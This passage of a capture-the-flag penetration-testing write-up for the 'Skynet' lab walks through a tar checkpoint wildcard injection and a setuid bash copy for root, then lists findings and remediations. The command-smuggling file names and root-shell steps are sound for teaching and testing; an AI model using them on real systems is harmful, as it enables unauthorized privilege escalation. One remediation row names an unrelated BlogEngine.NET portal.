This command will create a file called `shell.sh` in the `/var/www/html/` directory. The script copies the bash binary to `/tmp/rootbash` and sets the **setuid bit** on it, making it executable with root privileges.

The `shell.sh` file we have created then also needs to be made fully executable by running the following command:

```
chmod +x /var/www/html/shell.sh.
```

Next, two files need to be created in the `/var/www/html/` directory. This can be done by running the following commands:

```
touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"
touch "/var/www/html/--checkpoint=1"
```

- **checkpoint-action=**: part of the tar command and is used to specify an action to be taken when a checkpoint is reached during the archive creation process.
- **exec=sh**: specifies that the action to be executed when the checkpoint is triggered is to run the sh command (the shell).
- **checkpoint[=NUMBER]**: specifies the number of files to be archived before creating a checkpoint during the tar archive creation process. When the number of specified files is reached, the archive creation process will pause briefly, and the action specified by --checkpoint-action will be executed before the archive creation process resumes. If the NUMBER is not specified, tar will use a default value, typically 10.

By forcing tar to use these options, we can use a specific action with the permissions of the user that is running the command, which in our case is root.

>**Troubleshooting note**: First attempt did not work. With a quick `ls -la /tmp` I checked if the rootbash file had been written without luck. Checked `ls -la /var/www/html` to see if the checkpoint files were written. Then realized it was due to backslash "sh\shell.sh" typo which should've been a space. Also, somehow without having the command unquoted somehow broke it up and also created the files "touch" and "shell.sh" separately. 

That being said, it's important to note that the --checkpoint-action option should have a space instead of a backslash, as well as having the whole command in between double quotation marks for it to work properly.

After creating the files anew, the cronjob executed the script, creating the `/tmp/rootbash` file with root privileges.





Once again, the file can be checked by running the command `ls -la /tmp`. We can see the file has the **setuid bit** (-rwsr-sr-x) set, indicating that it can be executed with root privileges:



Finally, to gain a root shell, the `/tmp/rootbash` file needs to be executed with the `-p` option to preserve the effective UID. This can be done by running the command `/tmp/rootbash -p`. 

### 3.4 Root Flag:<a name="34-root-flag"></a>

As you see we have successfully elevated our privileges to root and completed the task. The root flag can be found by running the commands `find /home -name root.txt` and `cat /root/root.txt`.



---
## 4. Remediation 

It's important to note that remediating vulnerabilities requires an ongoing effort and it's important to keep the system up to date and review it regularly for new vulnerabilities. It's also important to give clear instructions and guidelines for the staff, and to establish a plan of action in case of a security breach.

### 4.1 Vulnerabilities found:<a name="41-vulnerabilities-found"></a>

1. **Samba Anonymous Share with Message Signing Enabled but Not Required**: The Samba server on the Skynet machine has an anonymous share that has message signing enabled but not required. This can allow an attacker to intercept and modify SMB traffic, potentially leading to unauthorized access to sensitive data or the ability to execute malicious code on the server.
2. **Samba Anonymous Share with Clear Text Password Leak**: The Samba server on the Skynet machine has an anonymous share that contains a clear text password list. An attacker can access this share and obtain passwords for user accounts on the system, which can then be used for further attacks.
3. **SquirrelMail Login Brute Force**: login page is vulnerable to brute force attacks. An attacker can use automated tools like Burp Intruder and Hydra to guess usernames and passwords until they find a valid login. This can lead to unauthorized access to its contents, including sensitive information such as credentials, configuration files, and more.
4. **Cuppa CMS Local/Remote File Inclusion**: The '/alertConfigField.php' file in Cuppa CMS is vulnerable to local and remote file inclusion (LFI/RFI) attacks. An attacker can use this vulnerability to access sensitive files on the server, including the '/etc/passwd' file, which contains user account information. An attacker can also leverage this vulnerability to execute arbitrary code on the server and gain a reverse shell.
5. **Outdated software (Ubuntu 16.04.1)**: The version of Ubuntu was released back in 2017. Linux (Kernel) 4.8.0-58-generic is also outdated.
6. **Cron Job with Weak File Permissions**: The cron job 'backup.sh' is configured to run with root file permissions, allowing any user on the system to exploit its contents. An attacker can exploit this vulnerability to inject malicious code into the script and execute it with elevated privileges.

### 4.2 Recommendations:<a name="42-recommendations"></a>

The following tables illustrate the vulnerabilities found by impact and recommended remediations:

| Critical / C | High / H | Moderate / M | Low / L | Info / I |
|----------|------|----------|-----|-----|
| <p align="center">:red_circle: 1</p> | <p align="center">:orange_circle: 4</p> | <p align="center">:yellow_circle: 2</p> | <p align="center">:green_circle: 3</p> | <p align="center">:large_blue_circle: 2</p> |

| Finding | Severity | Recommendation |
|---------|----------|----------------|
| Cuppa CMS Local/Remote File Inclusion | <p align="center">:red_circle: C</p> | Update Cuppa CMS to the latest version or switch to a more secure CMS. Sanitize user inputs to prevent file inclusion attacks. |
| SquirrelMail Login Brute Force | <p align="center">:orange_circle: H</p> | Update to the latest version. Implement a lockout mechanism that temporarily disables accounts after a certain number of failed login attempts. Implement a strong password policy and add CAPTCHA to the login page to prevent automated brute force attacks. Additionally, use strong and unique passwords, and consider implementing multi-factor authentication to add an extra layer of security to the login process. |
| SMB Message Signing Enabled but Not Required | <p align="center">:orange_circle: H</p> | Enable message signing for all Samba shares to ensure the integrity and confidentiality of SMB traffic. Additionally, restrict access to the anonymous share only to authorized users and disable any unnecessary features. |
| Exposed Credentials | <p align="center">:orange_circle: H</p> | Remove the clear text password list from the Samba share. Use encryption and secure storage to protect and manage credentials. |
| Outdated software (Ubuntu 16.04.1) | <p align="center">:orange_circle: H</p> | Upgrade to the latest version of Ubuntu or apply the relevant security patches. It's important to regularly update the operating system to ensure that any known vulnerabilities are patched. |
| Weak password policy | <p align="center">:yellow_circle: M</p> | Vulnerable to Brute Force Attacks. Weak password used. Enforce a stronger password policy (e.g. minimum length, complexity requirements, regular password rotation). |
| Cron Job with Weak File Permissions | <p align="center">:yellow_circle: M</p> | Modify the file permissions for 'backup.sh' to allow only the necessary users to read and execute the script. Run the script as a non-root user if possible so they are not vulnerable to injection attacks. |
| Permissions review | <p align="center">:green_circle: L</p> | Review permissions and roles assigned to users and groups, and limit access to sensitive data and functionality. |
| IP-based firewall | <p align="center">:green_circle: L</p> | Use a firewall to restrict access to BlogEngine.NET login portal to only trusted IP addresses. |
| Intrusion detection | <p align="center">:green_circle: L</p> | Monitor for suspicious activity and implement intrusion detection and prevention measures. |
| Open Ports | <p align="center">:large_blue_circle: I</p> | Unused open ports expose attack surface. Close unused ports to reduce attack surface. |
| Banner Grabbing | <p align="center">:large_blue_circle: I</p> | Server banner reveals software and version information. Disable server banner or customize it to prevent information disclosure. |

---
## 5. Conclusion 

In conclusion, the Skynet engagement involved multiple vulnerabilities that an attacker could exploit to gain unauthorized access to the target system. These vulnerabilities included an outdated SquirrelMail version, a misconfigured Samba share, a vulnerable web application (Cuppa CMS), and weak credentials. Additionally, the discovery of a cron job that ran as the root user increased the attack surface. It is critical to remediate these vulnerabilities by keeping the system up to date, securing network services, implementing secure coding practices, and implementing proper access controls to prevent future attacks.

It's important to note that these methods should only be performed on systems that you have permission to test. Unauthorized testing is illegal and can result in serious consequences.

In conclusion, I hope this write-up has helped you understand some of the basic techniques used in penetration testing and how to identify and exploit vulnerabilities to gain access to a system.

Hasta la vista, baby.

<div style="text-align:left">
    
</div>

---
## References
1. https://tryhackme.com/room/skyzone
2. https://www.exploit-db.com/exploits/25971
3. https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
4. https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#scheduled-tasks
